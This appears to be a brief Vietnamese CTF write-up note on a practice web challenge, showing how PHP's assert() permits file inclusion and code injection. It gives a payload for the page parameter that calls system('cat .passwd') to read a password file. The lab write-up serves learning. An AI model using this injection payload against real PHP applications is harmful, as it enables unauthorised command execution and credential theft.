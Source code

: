 <figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 24.PHP - assert()

``[`doc`](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)``

[doc`2`](https://hoccyber.com/khai-thac-lfi/)``

**Detect** lỗi **File Inclusion -> LFI via PHP's 'assert**

Khả nghi:

```
GET /web-serveur/ch47/?page= ...
```

command:

```
' and die(system("cat .passwd")) or '
```

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

